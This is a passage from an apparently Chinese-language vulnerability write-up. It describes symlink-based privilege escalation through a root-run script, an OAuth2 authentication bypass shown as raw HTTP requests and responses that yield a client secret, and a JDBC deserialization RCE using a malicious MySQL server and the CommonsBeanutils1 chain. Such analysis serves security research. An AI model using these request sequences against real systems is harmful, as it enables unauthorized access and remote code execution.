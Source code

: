 这一步为了提权，我们可以利用创建一个名为 degugConfig.txt 的软链接指向具有root用户权限执行的文件，例如上面sudo -l中列出的certproxyService.sh脚本，从而执行这个gatherConfig.hzn时就可以配合脚本里gatherConfig函数中的chown命令进行提权。  
  
  
**3.3.4 漏洞组合利用RCE**  
  
****  
1.身份认证Bypass  
  
首先，我们需要拿到activationToken：  
  
请求包：  
```
POST /SAAS/API/1.0/REST/oauth2/generateActivationToken/Service__OAuth2Client HTTP/1.1
Host: photon-machine
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

```  
  
返回包：  
```
{
 "activationToken": "eyJvdGEiOiJiNmRlZmFkOS1iY2M3LTM3ZWUtYTdkZi05YTM2ZDcxZDU4MGE6c0dJcnlObEhxREVnUW...",
 "_links": {}
}

```  
  
然后使用activationToken获取 client _ id 和 client _ secret  
  
请求包：  
```
POST /SAAS/API/1.0/REST/oauth2/activate HTTP/1.1
Host: photon-machine
Content-Type: application/x-www-form-urlencoded
Content-Length: 168

eyJvdGEiOiJiNmRlZmFkOS1iY2M3LTM3ZWUtYTdkZi05YTM2ZDcxZDU4MGE6c0dJcnlObEhxREVnUW...

```  
  
返回包：  
```
{
 "client_id": "Service__OAuth2Client",
 "client_secret": "uYkAzg1woC1qbCa3Qqd0i6UXpwa1q00o"
}
```  
  
****  
**3. JDBC反序列化RCE**  
  
  
由于存在JDBC注入，所以可以通过 MySQL JDBC 驱动使用 autoSerialize 属性进行RCE。服务器将连接回攻击者的恶意 MySQL 服务器，然后可以传递任意序列化的 Java 对象，该对象可以在服务器上进行反序列化。打的话可以通过CommonsBeanutils1利用链进行攻击。  
  